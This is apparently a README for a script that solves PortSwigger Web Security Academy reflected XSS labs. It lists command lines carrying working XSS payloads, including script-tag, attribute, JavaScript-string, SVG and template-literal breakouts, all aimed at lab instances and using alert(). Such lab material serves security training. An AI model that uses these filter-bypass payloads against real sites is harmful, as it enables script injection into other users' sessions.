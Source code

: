 # How to run script.py

## The labs that script.py is valid are the following:

### 1. Reflected XSS into HTML context with nothing encoded

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<script>alert('XSS')</script>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<script>alert('XSS')</script>" -p 127.0.0.1:8080`

### 2. Reflected XSS into attribute with angle brackets HTML-encoded

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\" autofocus onfocus=alert('XSS') x=\""`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\" autofocus onfocus=alert('XSS') x=\"" -p 127.0.0.1:8080`

### 3. Reflected XSS into a JavaScript string with angle brackets HTML encoded

### 3.1 ';-alert('XSS')'

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "';-alert('XSS')-'"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "';-alert('XSS')-'" -p 127.0.0.1:8080`

### 3.2 ';alert('XSS')//

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "';alert('XSS')//"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "';alert('XSS')//" -p 127.0.0.1:8080`

### 4. Reflected XSS into a JavaScript string with single quote and backslash escaped

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "</script><script>alert(1)</script>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "</script><script>alert(1)</script>" -p 127.0.0.1:8080`

### 5. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\';alert(1)//"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\';alert(1)//" -p 127.0.0.1:8080`

### 6. Reflected XSS with some SVG markup allowed

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<svg><animatetransform onbegin=alert('XSS') attributeName=transform>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<svg><animatetransform onbegin=alert('XSS') attributeName=transform>" -p 127.0.0.1:8080`

### 7. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\${alert(document.domain)}"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "\${alert(document.domain)}" -p 127.0.0.1:8080`
